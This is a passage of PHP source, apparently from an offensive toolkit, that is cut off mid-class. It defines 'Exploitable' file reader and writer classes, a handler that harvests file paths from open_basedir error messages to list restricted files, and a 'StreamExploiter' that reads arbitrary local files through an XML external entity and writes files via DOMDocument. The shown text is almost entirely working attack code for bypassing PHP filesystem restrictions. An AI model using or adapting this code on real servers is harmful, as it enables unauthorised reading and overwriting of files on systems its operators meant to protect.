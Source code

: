 ```php
		// files with extension
		foreach ($this->extension as $extension) {
			realpath($this->getCurrentPath() . $file_name . $extension);
		}
	}
	function handler($errno, $errstr, $errfile, $errline) {
		$regexp = '/File\((.*)\) is not within/';
		preg_match($regexp, $errstr, $matches);
		if (isset($matches[1])) {
			$this->fileList[] = $matches[1];
		}
 
	}
}
 
abstract class FileWriter implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function write($content) {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}
 
abstract class FileReader implements Exploitable {
	var $filePath;
 
	function isAvailable() {}
	function getDescription() {}
	function read() {}
	function setFilePath($filePath) {
		$this->filePath = $filePath;
	}
	function getFilePath() {
		return $this->filePath;
	}
}

// Assistant class for DOMFileWriter & DOMFileReader
class StreamExploiter {
var $mode, $filePath, $fileContent;

function stream_close() {
		$doc = new DOMDocument;
		$doc->strictErrorChecking = false;
switch ($this->mode) {
case 'w':
			$doc->loadHTML($this->fileContent);
			$doc->removeChild($doc->firstChild);
			$doc->saveHTMLFile($this->filePath);
break;
default:
case 'r':
			$doc->resolveExternals = true;
			$doc->substituteEntities = true;
			$doc->loadXML("<!DOCTYPE doc [<!ENTITY file SYSTEM \"file://{$this->filePath}\">]><doc>&file;</doc>", LIBXML_PARSEHUGE);
echo $doc->documentElement->firstChild->nodeValue;
```